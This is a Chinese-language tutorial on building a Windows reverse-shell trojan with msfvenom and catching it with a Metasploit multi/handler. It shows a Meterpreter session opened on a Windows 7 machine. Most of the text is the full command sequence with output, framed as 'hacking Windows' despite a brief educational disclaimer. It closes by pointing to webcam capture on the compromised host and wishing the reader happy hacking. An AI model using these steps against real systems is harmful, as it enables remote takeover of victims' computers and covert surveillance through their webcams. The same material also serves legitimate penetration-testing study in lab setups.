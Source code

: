如何使用 Kali Linux 黑掉 Windows

Kali Linux 派生自 Debian Linux，主要用于渗透测试，拥有超过 300 个的预安装好的渗透测试工具。Metasploit 项目中 Metasploit 框架支持 Kali Linux 平台，Metasploit 是一个用于开发和执行安全利用代码的工具。让我们来使用 Kali Linux 来攻破 Windows 吧。请注意，我写这篇文章只是出于教育目的哦——一切因此带来的后果和本文作者、译者无关。
源机器详情

Kali Linux

    root@kali:/# uname -a
    Linux kali 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux
    root@kali:/#

用做攻击对象的目标机器：

    Windows 7 Ultimate SP1

步骤 1：创建 Payload 程序

Payload 是一个类似于病毒或者木马的程序，可以运行在远程目标上 —— 为了黑掉那台机器。可以通过以下命令来创建 Payload（program.exe），以便能使用 Kali Linux 黑掉 Windows。

    root@kali:/# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.189.128 LPORT=4444 --format=exe -o /root/program.exe
    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 333 bytes
    Final size of exe file: 73802 bytes
    Saved as: /root/program.exe
    root@kali:/# ls -la /root/program.exe
    -rw-r--r-- 1 root root 73802 Jan 26 00:46 /root/program.exe

通过 ls 命令，我们可以确认 Payload 程序是否成功生成在指定的位置。
步骤 2：运行 mfsconsole 命令启动 msf 命令窗口

    root@kali:# msfconsole
                                       .,,.                  .
                                    .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                         d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                      d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
      d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
      88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
     d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
    d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                              .a#$$$$$$"`          88b  d8P  88b`?8888P'
                           ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                        .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                     .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
                  ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
               .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
    _______________________________________________________________   ,&$$$$$$'_____
                                                                     ll&&$$$$'
                                                                  .;;lll&&&&'
                                                                ...;;lllll&'
                                                              ......;;;llll;;;....
                                                               ` ......;;;;... .  .
    Taking notes in notepad? Have Metasploit Pro track & report
    your progress and findings -- learn more on http://rapid7.com/metasploit
           =[ metasploit v4.12.22-dev                         ]
    + -- --=[ 1577 exploits - 906 auxiliary - 272 post        ]
    + -- --=[ 455 payloads - 39 encoders - 8 nops             ]
    + -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
    msf >

步骤 3：进行漏洞利用的细节

    4444 端口：你可以按照自己的想法来选择使用哪个端口
    LHOST IP：表示 Kali Linux 机器的 IP，这里是 192.168.189.128。 使用如下命令来查看你的 Kali Linux 机器的 IP。

    root@kali:/# ip r l
    192.168.189.0/24 dev eth0  proto kernel  scope link  src 192.168.189.128  metric 100
    root@kali:/#

现在在 msf 命令窗口使用 use exploit/multi/handler 命令，如下：

    msf > use exploit/multi/handler
    msf exploit(handler) >

然后在接下来的命令窗口中使用命令 set payload windows/meterpreter/reverse_tcp：

    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp

现在使用 LHOST 和 LPORT 来设置本地 IP 和本地端口，如下：

    msf exploit(handler) > set lhost 192.168.189.128
    lhost => 192.168.189.128
    msf exploit(handler) > set lport 4444
    lport => 4444

最后使用 exploit 命令。

    msf exploit(handler) > exploit
    [*] Started reverse TCP handler on 192.168.189.128:4444
    [*] Starting the payload handler...

现在你需要在 Windows 上运行 program.exe，一旦它在目标机器上执行，你就可以建立一个 meterpreter 会话。输入 sysinfo 就可以得到这台被黑掉的 Windows 机器的详情。

    msf exploit(handler) > exploit
    [*] Started reverse TCP handler on 192.168.189.128:4444
    [*] Starting the payload handler...
    [*] Sending stage (957999 bytes) to 192.168.189.1
    [*] Meterpreter session 1 opened (192.168.189.128:4444 -> 192.168.189.1:53091) at 2017-01-26 00:51:31 +0000
    meterpreter > sysinfo
    Computer        : MANN-PC
    OS              : Windows 7 (Build 7601, Service Pack 1).
    Architecture    : x64 (Current Process is WOW64)
    System Language : en_IN
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/win32

一旦你得到了这些详细信息，就可以做更多的漏洞利用，或者通过 help 命令获取更多信息，以便列出你可以黑掉该系统的所有选项，比如 webcam_snap 命令获取网络摄像头，同样你还可以使用其他更多的可用选项。祝你入侵愉快！！！！ ←_←

作者简介：

嗨，我是 Manmohan Mirkar。很高兴认识你。我接触 Linux 是在十年前，我做梦也没想到我有现在这样的收获。我的愿望就是让你学到 Linux 的知识，谢谢你的阅读。
